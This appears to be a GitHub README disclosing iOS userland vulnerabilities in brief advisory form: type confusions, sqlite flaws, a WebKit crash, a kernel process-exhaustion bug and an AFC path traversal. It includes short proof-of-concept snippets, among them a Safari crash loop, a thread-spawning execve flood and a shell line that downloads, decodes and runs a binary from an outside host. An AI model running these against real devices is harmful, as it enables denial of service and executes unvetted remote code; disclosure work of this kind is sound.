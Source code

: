 # plata o plomo
Plata O Plomo (Spanish: Silver or Lead) is a term used in Latin America for when someone is forced to accept a bribe.

He or she can either accept the bribe or get a lead bullet in the head.

This repository contains minor bugs and vulnerabilities that I found in iOS userland.

## CVE 2018-???? iBooks Type Confusion
A type confusion vulnerability in iBooks may lead to memory corruption.

An attacker with access to a paired device over usb can exploit this vulnerability to cause a persistant denial of service in the iBooks application.

An attacker may be able to corrupt memory in the iBooks application.

The issue can be fixed by improved serialization and sandboxing.

## CVE 2018-???? MobileSlideShow Type Confusion
A type confusion vulnerability in MobileSlideShow may lead to memory corruption.

## CVE 2018-???? Assetsd Type Confusion
A type confusion vulnerability in assetsd may lead to memory corruption.

The issue can be fixed by improved serialization.

## CVE 2018-???? Launchd Type Confusion
A type confusion vulnerability exists in the initialization of launchdaemons.

A local attacker may be able to execute arbitrary code with system privileges and persistancy.

The issue can be fixed by improved serialization.

## CVE-2018-???? libsqlite3 Infoleak
A vulnerability exists in libsqlite3.

This is a known vulnerability but Apple has not patched it yet.

An attacker may be able to leak information about the address space of applications using the sqlite3 library.

## CVE-2018-???? libsqlite3 Memory Corruption
A vulnerability exists in libsqlite3.

This is a known vulnerability but Apple has not patched it yet.

An attacker may be able to execute arbitrary code with system privileges in applications using the sqlite3 library.


## CVE-2018-4361 Webkit Denial of Service
A remote attacker may be able to cause a denial of service in MobileSafari through maliciously crafted webcontent resulting in an application crash.

This vulnerability can be patched by improved memory management.

This issue seems to be patched in iOS 12.

_Quick Poc:_
```js
setInterval(function(){window.location.href='accounts://'+'A'.repeat(10000);},0.1);
```

## CVE-2018-???? Kernel Denial of Service
A local attacker may be able to cause a denial of service through a maliciously crafted application.

A logic flaw exists in process allocation.

This issue can be resolved through improved logic and improved sandboxing.
_Quick Poc:_
```Objc
for(int i = 0; i < 10000; i++) { //We want to work with 10.000 asynchronous thread
    dispatch_async(dispatch_get_main_queue(), ^(void){
        [NSThread detachNewThreadWithBlock:^(void){
              printf("Thread %d started.\n", syscall(SYS_gettid));
              for(int j = 0; j < 10000; j++) //We want to allocate 10.000 at a time (final total: 100.000)
              {
                execve("/SMOKE/A/LOT/OF/POT", NULL, NULL);
              }
        }];
    });
 ```

## CVE-2018-???? Apple File Conduit Infoleak
A local attacker may be able to list directories outside the sandbox.

A path traversal vulnerability exists in the afc service.

This issue can be resolved by improved path handling.

_Quick Poc:_
```sh
curl http://exploitation.cool/exploits/afcclient.bin | base 64 -D > afcclient && \
chmod +x afcclient && \
afcclient ls ../../../../../../usr/libexec/ \
```
